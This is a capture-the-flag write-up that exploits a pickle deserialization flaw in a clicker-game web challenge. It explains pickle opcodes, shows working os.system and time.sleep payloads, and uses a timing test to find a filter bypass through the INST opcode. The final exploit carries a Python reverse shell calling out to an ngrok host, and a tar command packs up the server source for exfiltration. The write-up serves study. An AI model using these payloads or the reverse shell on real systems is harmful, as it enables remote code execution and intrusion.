


> This writeup is for challenge `cucumber farm`. (Got first blood out of only 3 solves!)

<!-- @xprops width="300px" themeAdaptive -->


## Background

### Pickle Deserialization

Pickle is Python's built-in serialization protocol. It uses a stack-based virtual machine to reconstruct objects by executing a sequence of opcodes.

```python
import pickle
print(pickle.dumps(254))
# b'\x80\x04K\xfe.'
```

An **opcode** is a single-byte instruction that tells the pickle VM what operation to perform. The full list of opcodes and their semantics is defined in CPython's [pickletools.py](https://github.com/python/cpython/blob/main/Lib/pickletools.py). Let's break down the output above:

- `\x80\x04` — `PROTO`: declares pickle protocol version 4.
- `K` — `BININT1`: reads the next 1 byte as an unsigned integer.
- `\xfe` — the argument to `BININT1`, i.e. the value 254.
- `.` — `STOP`: ends unpickling and returns the top-of-stack value.

### Common Opcodes

| Name      | Code   | Description                                                               | Stack effect                             |
| --------- | ------ | ------------------------------------------------------------------------- | ---------------------------------------- |
| `PROTO`   | `\x80` | Declare protocol version                                                  | `[]` → `[]`                              |
| `INT`     | `I`    | Push an integer (read as decimal string until newline)                    | `[]` → `[int]`                           |
| `BININT1` | `K`    | Push a 1-byte unsigned integer                                            | `[]` → `[int]`                           |
| `UNICODE` | `V`    | Push a Unicode string (read until newline)                                | `[]` → `[str]`                           |
| `GLOBAL`  | `c`    | Push `module.attr` (read module and name, each terminated by newline)     | `[]` → `[callable]`                      |
| `MARK`    | `(`    | Push a special mark object onto the stack                                 | `[]` → `[mark]`                          |
| `TUPLE`   | `t`    | Pop everything above the topmost mark into a tuple                        | `[mark, items...]` → `[tuple]`           |
| `REDUCE`  | `R`    | Pop an args tuple and a callable, call `callable(*args)`                  | `[callable, args]` → `[result]`          |
| `INST`    | `i`    | Read `module` `\n` `name`, pop args above mark, call `module.name(*args)` | `[mark, args...]` → `[result]`           |
| `OBJ`     | `o`    | Pop from mark: first item is callable, rest are args, call it             | `[mark, callable, args...]` → `[result]` |
| `BUILD`   | `b`    | Pop a state, apply to top object via `__setstate__` or `__dict__.update`  | `[obj, state]` → `[obj]`                 |
| `STOP`    | `.`    | End unpickling, return top-of-stack                                       | `[result]` → `result`                    |

### Execute Code by Pickle

Let's warm up by writing some opcodes by hand to execute `os.system("whoami")`:

```python
d = (
    b"cos\n"
    b"system\n"
    b"(Vwhoami\n"
    b"tR."
)
res = pickle.loads(d)  # prints "suzuki"
print(res)  # 0
```

Here's what happens on the stack, step by step:

| Step | Opcode        | Argument    | Stack (top on right)          |
| ---- | ------------- | ----------- | ----------------------------- |
| 1    | `c` — GLOBAL  | `os.system` | `[os.system]`                 |
| 2    | `(` — MARK    |             | `[os.system, mark]`           |
| 3    | `V` — UNICODE | `whoami`    | `[os.system, mark, "whoami"]` |
| 4    | `t` — TUPLE   |             | `[os.system, ("whoami",)]`    |
| 5    | `R` — REDUCE  |             | `[0]`                         |
| 6    | `.` — STOP    |             | return `0`                    |

There's more than one way to achieve this. Here are all the opcode combinations that can lead to code execution:

| #   | Method                | Key opcodes  | How it works                                                                   |
| --- | --------------------- | ------------ | ------------------------------------------------------------------------------ |
| d1  | GLOBAL + REDUCE       | `c` … `R`    | Push callable via `c`, build args tuple, `R` calls `callable(*args)`           |
| d2  | GLOBAL + OBJ          | `c` … `o`    | Mark, push callable via `c`, push args, `o` calls `callable(*args)`            |
| d3  | INST                  | `i`          | Mark, push args, `i` reads `module` `\n` `name` and calls `module.name(*args)` |
| d4  | STACK_GLOBAL + REDUCE | `\x93` … `R` | Like d1, but reads module and name from the stack (proto ≥ 4)                  |
| d5  | STACK_GLOBAL + OBJ    | `\x93` … `o` | Like d2, but reads module and name from the stack (proto ≥ 4)                  |

```python
# d1: GLOBAL + REDUCE
d1 = (
    b"cos\n"
    b"system\n"
    b"(Vwhoami\n"
    b"tR."
)

# d2: GLOBAL + OBJ
d2 = (
    b"(cos\n"
    b"system\n"
    b"Vwhoami\n"
    b"o."
)

# d3: INST
d3 = (
    b"(Vwhoami\n"
    b"ios\n"
    b"system\n"
    b"."
)

# d4: STACK_GLOBAL + REDUCE (proto >= 4)
d4 = (
    b"\x80\x04"
    b"Vos\n"
    b"Vsystem\n"
    b"\x93"
    b"(Vwhoami\n"
    b"tR."
)

# d5: STACK_GLOBAL + OBJ (proto >= 4)
d5 = (
    b"\x80\x04"
    b"(Vos\n"
    b"Vsystem\n"
    b"\x93"
    b"Vwhoami\n"
    b"o."
)

for d in [d1, d2, d3, d4, d5]:
    pickle.loads(d)  # prints "suzuki" 5 times
```

## Analysis & Failed Attempts

We are given a clicker game of growing cucumbers. The objective is to purchase the Golden Cucumber, which costs `10^20` cucumbers and triggers a `revealFlag` effect. Reaching this legitimately would take thousands of years :)

<!-- @xprops themeAdaptive -->



The game has a save/load feature that allows players to export progress as `.bak` files and import them later. The file format is:

```text
hex( base64(pickle_serialized_state) + hmac_sha256_signature )
```

After hex-decoding, the last 64 characters are the HMAC-SHA256 signature over the pickle bytes.

Some Failed Attempts:

- Information Disclosure: `robots.txt` revealed `/.history`, a developer changelog mentioning the redeem code `WELCOME` (grants +10,000 cucumbers, one-time use). But nothing else useful.

- API Testing: Race conditions on purchase endpoints, parameter injection, etc. All silently ignored or properly rejected.

- Forging Save Data: Modified the pickle state and tried to load it. HMAC validation rejected tampered saves.

## Identify the Vulnerability

What if the server deserializes the pickle data before verifying the HMAC? If so, we can get RCE by embedding malicious opcodes in the save file, the invalid signature won't matter.

Let's write some helpers first:

```python
import binascii, base64, requests, time

url = "http://4b51d3b0a4cd419abcbcdfe33f0cea170.chal3.teagod.tech:8001"


def bak(pk):
    fake_hash = "a" * 64
    return binascii.hexlify((base64.b64encode(pk).decode() + fake_hash).encode())


def send(data):
    s = requests.Session()
    token = s.get(f"{url}/api/state").json()["actionToken"]
    s.post(
        f"{url}/api/load",
        data=data,
        headers={"Content-Type": "application/octet-stream", "X-Action-Token": token}
    )

```

To check if the server actually deserializes our data, we send arrays of different sizes and measure response time. If deserialization happens, larger arrays should take longer time.

```python
def log_time(fn):
    def wrapper_fn(*args, **kwargs):
        start = time.time()
        fn(*args, **kwargs)
        end = time.time()
        print(f"Function returned after {end - start} seconds.")

    return wrapper_fn


@log_time
def send_and_log_time(data):
    send(data)


send_and_log_time(bak(pickle.dumps(list(range(10)))))      # Function returned after 0.971851110458374 seconds.
send_and_log_time(bak(pickle.dumps(list(range(100000)))))  # Function returned after 2.0992960929870605 seconds.
send_and_log_time(bak(pickle.dumps(list(range(500000)))))  # Function returned after 4.684699773788452 seconds.
send_and_log_time(bak(pickle.dumps(list(range(200)))))     # Function returned after 0.9287629127502441 seconds.
send_and_log_time(bak(pickle.dumps(list(range(300000)))))  # Function returned after 6.2692859172821045 seconds.
send_and_log_time(bak(pickle.dumps(list(range(2000000))))) # Function returned after 23.84464406967163 seconds.
```

Response time clearly scales with array size, which means the server deserializes our pickle data before checking the HMAC!

Now let's confirm RCE. We send payloads that call `time.sleep(9)` using all 5 opcode combinations. If the response takes ~9 extra seconds, code execution is confirmed:

```python
d1 = (
    b"ctime\n"
    b"sleep\n"
    b"(I9\n"
    b"tR."
)

d2 = (
    b"(ctime\n"
    b"sleep\n"
    b"I9\n"
    b"o."
)

d3 = (
    b"(I9\n"
    b"itime\n"
    b"sleep\n"
    b"."
)

d4 = (
    b"\x80\x04"
    b"Vtime\n"
    b"Vsleep\n"
    b"\x93"
    b"(I9\n"
    b"tR."
)

d5 = (
    b"\x80\x04"
    b"(Vtime\n"
    b"Vsleep\n"
    b"\x93"
    b"I9\n"
    b"o."
)

for d in [d1, d2, d3, d4, d5]:
    send_and_log_time(bak(d))
# Function returned after 2.328557014465332 seconds.
# Function returned after 2.407073974609375 seconds.
# Function returned after 10.676033973693848 seconds.
# Function returned after 1.8217799663543701 seconds.
# Function returned after 1.43153715133667 seconds.
```

Only `d3` (INST) took ~10 seconds. The rest returned in ~1-2 seconds, which may indicate the server filters certain opcodes.

## Final Exploit

```python
# ngrok tcp 4444
cmd = """python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.tcp.ap.ngrok.io",12079));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'"""
exp = (
    b"(V" +
    cmd.encode() +
    b"\n"
    b"ios\n"
    b"system\n"
    b"."
)
send(bak(exp))
```

<!-- @xprops width="600px" -->



## Post-Solve Analysis

The hardest part of this challenge was black-box testing. After `R` (REDUCE) failed, I initially suspected the server validates HMAC before deserializing which would make this entire approach impossible. It took some patience to systematically try all opcode combinations before finding that `i` (INST) bypasses the filter.

After getting a shell, we can download the server source to see the actual filtering logic:

```bash
tar -czf /app/static/app.tar.gz /app
# then GET http://<host>/app.tar.gz
```

The server ships a patched `pickle.py` that shadows the standard library module. It forces all deserialization through the pure-Python `_Unpickler` (never the C `_pickle` extension):

```python
# pickle.py (bottom)
try:
    from _pickle import (Pickler, dump, dumps, ...)
except ImportError:
    ...
else:
    Unpickler = _Unpickler          # always use patched Python unpickler
    load, loads = _load, _loads     # never use C _pickle.loads
```

Within the patched `_Unpickler`, two opcode handlers are overwritten to unconditionally raise:

```python
# opcode 'c' (GLOBAL)
def load_global(self):
    module = self.readline()[:-1].decode("utf-8")
    name = self.readline()[:-1].decode("utf-8")
    raise UnpicklingError("GLOBAL opcode is forbidden: %s.%s" % (module, name))

# opcode '\x93' (STACK_GLOBAL)
def load_stack_global(self):
    name = self.stack.pop()
    module = self.stack.pop()
    raise UnpicklingError("STACK_GLOBAL opcode is forbidden: %s.%s" % (module, name))
```

Since `GLOBAL` and `STACK_GLOBAL` are the only ways to push a callable onto the stack, blocking them effectively kills `OBJ`/`NEWOBJ`/`REDUCE` as a side-effect.

`INST` doesn't need a callable already on the stack. It reads module and name directly from the pickle byte stream, resolves the callable itself, then calls it with the stacked arguments:

```python
# opcode 'i' (INST)
def load_inst(self):
    module = self.readline()[:-1].decode("ascii")
    name = self.readline()[:-1].decode("ascii")
    klass = self.find_class(module, name)
    self._instantiate(klass, self.pop_mark())
```

And `find_class` has no filtering, so `INST` can resolve and call any function from any module.

## Summary

Two vulnerabilities combined:

1. `pickle.loads()` runs before HMAC verification
2. `INST` opcode not blocked & `find_class` has no whitelist
